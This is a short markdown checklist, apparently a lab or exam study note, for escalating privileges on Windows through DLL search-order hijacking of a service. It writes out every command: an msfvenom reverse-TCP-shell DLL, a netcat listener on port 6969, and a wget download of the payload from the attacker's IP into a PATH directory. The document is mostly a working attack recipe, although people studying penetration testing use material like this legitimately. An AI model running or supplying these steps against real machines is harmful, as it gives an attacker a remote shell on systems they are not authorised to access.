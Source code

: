 
- [ ] Transfer the binary file from Target Machine to your Kali Machine

- [ ] Create a service on your Windows Analysis Machine
```powershell
sc.exe create "SuperTimer" binpath= "C:\Users\hentaisalesman\Desktop\Scheduler\SuperTimer.exe"
```

- [ ] Use Process Monitor and filter for service on your Windows Analysis Machine
```
https://learn.microsoft.com/en-us/sysinternals/downloads/procmon
```

- [ ] Start service on your Windows Analysis Machine
```powershell
net start "SuperTimer"
```

- [ ] Create Windows DLL with a reverse TCP shell payload to your Kali Machine
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.xxx.xxx LPORT=6969 -f dll -o myrevshell.dll
```

- [ ] View the Windows DLL search order on the Target Machine 
```powershell
$env:path
```

- [ ] Start netcat reverse shell listener on your Kali Machine
```
nc -nlvp 6969
```

- [ ] Transfer Windows DLL payload in the Windows DLL search order on the Target Machine
```
wget http://192.168.xxx.xxx:80/myrevshell.dll -Outfile somefilename.dll
```

- [ ] Catch reverse shell on your Kali Machine